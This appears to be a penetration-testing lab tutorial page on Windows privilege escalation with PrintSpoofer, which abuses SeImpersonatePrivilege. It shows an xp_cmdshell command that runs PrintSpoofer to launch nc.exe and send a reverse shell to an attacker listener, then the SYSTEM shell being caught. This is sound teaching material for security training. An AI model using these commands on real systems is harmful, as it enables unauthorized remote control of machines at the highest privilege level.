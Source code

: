```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# PrintSpoofer

{% hint style="info" %}
#### Version

[PrintSpoofer](https://github.com/itm4n/PrintSpoofer) and [RoguePotato](https://github.com/antonioCoco/RoguePotato) can be used to leverage the same privileges and gain `NT AUTHORITY\SYSTEM` level access. This [blog post](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/) goes in-depth on the `PrintSpoofer` tool, which can be used to abuse impersonation privileges on Windows 10 and Server 2019 hosts where JuicyPotato no longer works.
{% endhint %}

## Example

Let's try this out using the `PrintSpoofer` tool. We can use the tool to spawn a SYSTEM process in your current console and interact with it, spawn a SYSTEM process on a desktop (if logged on locally or via RDP), or catch a reverse shell - which we will do in our example. Again, connect with `mssqlclient.py` and use the tool with the `-c` argument to execute a command. Here, using `nc.exe` to spawn a reverse shell (with a Netcat listener waiting on our attack box on port 8443).

```shell-session
SQL> xp_cmdshell c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"

output                                                                             

--------------------------------------------------------------------------------   

[+] Found privilege: SeImpersonatePrivilege                                        

[+] Named pipe listening...                                                        

[+] CreateProcessAsUser() OK                                                       

NULL 
```

### **Catching Reverse Shell as SYSTEM**

If all goes according to plan, we will have a SYSTEM shell on our netcat listener.

```shell-session
McClewR@htb[/htb]$ nc -lnvp 8443

listening on [any] 8443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.30] 49847
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.


C:\Windows\system32>whoami

whoami
nt authority\system
```

Escalating privileges by leveraging `SeImpersonate` is very common. It is essential to be familiar with the various methods available to us depending on the target host OS version and level.
